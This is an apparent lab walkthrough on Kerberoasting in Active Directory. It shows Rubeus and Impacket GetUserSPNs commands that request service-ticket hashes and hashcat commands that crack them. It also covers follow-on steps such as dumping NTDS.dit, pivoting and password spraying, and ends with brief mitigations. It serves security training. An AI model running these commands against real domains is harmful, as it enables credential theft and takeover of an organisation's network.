

Kerberoasting w/ Rubeus & Impacket
In this task we'll be covering one of the most popular Kerberos attacks - Kerberoasting. Kerberoasting allows a user to request a service ticket for any service with a registered SPN then use that ticket to crack the service password. If the service has a registered SPN then it can be Kerberoastable however the success of the attack depends on how strong the password is and if it is trackable as well as the privileges of the cracked service account. To enumerate Kerberoastable accounts I would suggest a tool like BloodHound to find all Kerberoastable accounts, it will allow you to see what kind of accounts you can kerberoast if they are domain admins, and what kind of connections they have to the rest of the domain. That is a bit out of scope for this room but it is a great tool for finding accounts to target.
In order to perform the attack, we'll be using both Rubeus as well as Impacket so you understand the various tools out there for Kerberoasting. There are other tools out there such a kekeo and Invoke-Kerberoast but I'll leave you to do your own research on those tools.
I have already taken the time to put Rubeus on the machine for you, it is located in the downloads folder.
Method 1 - Rubeus
Kerberoasting w/ Rubeus -
1.)
cd Downloads - navigate to the directory Rubeus is in
2.)
Rubeus.exe kerberoast This will dump the Kerberos hash of any kerberoastable users
copy the hash onto your attacker machine and put it into a .txt file so we can crack it with hashcat
I have created a modified rockyou wordlist in order to speed up the process download it
here 3.)
hashcat -m 13100 -a 0 hash.txt Pass.txt - now crack that hash
Method 2 - Impacket
Impacket Installation -
Impacket releases have been unstable since 0.9.20 I suggest getting an installation of Impacket < 0.9.20
1.)
cd /opt navigate to your preferred directory to save tools in
2.) download the precompiled package from
https://github.com/SecureAuthCorp/impacket/releases/tag/impacket_0_9_193.)
cd Impacket-0.9.19 navigate to the impacket directory
4.)
pip install . - this will install all needed dependencies
Kerberoasting w/ Impacket -
1.)
cd /usr/share/doc/python3-impacket/examples/ - navigate to where GetUserSPNs.py is located
2.)
sudo python3 GetUserSPNs.py controller.local/Machine1:Password1 -dc-ip 10.10.215.150 -request - this will dump the Kerberos hash for all kerberoastable accounts it can find on the target domain just like Rubeus does; however, this does not have to be on the targets machine and can be done remotely.
3.)
hashcat -m 13100 -a 0 hash.txt Pass.txt - now crack that hash
What Can a Service Account do?
After cracking the service account password there are various ways of exfiltrating data or collecting loot depending on whether the service account is a domain admin or not. If the service account is a domain admin you have control similar to that of a golden/silver ticket and can now gather loot such as dumping the NTDS.dit. If the service account is not a domain admin you can use it to log into other systems and pivot or escalate or you can use that cracked password to spray against other service and domain admin accounts; many companies may reuse the same or similar passwords for their service or domain admin users. If you are in a professional pen test be aware of how the company wants you to show risk most of the time they don't want you to exfiltrate data and will set a goal or process for you to get in order to show risk inside of the assessment.
Mitigation - Defending the Forest
Kerberoasting Mitigation -
•
Strong Service Passwords - If the service account passwords are strong then kerberoasting will be ineffective• Don't Make Service Accounts Domain Admins - Service accounts don't need to be domain admins, kerberoasting won't be as effective if you don't make service accounts domain admins.
{kind=link}
{kind=link}
{kind=link}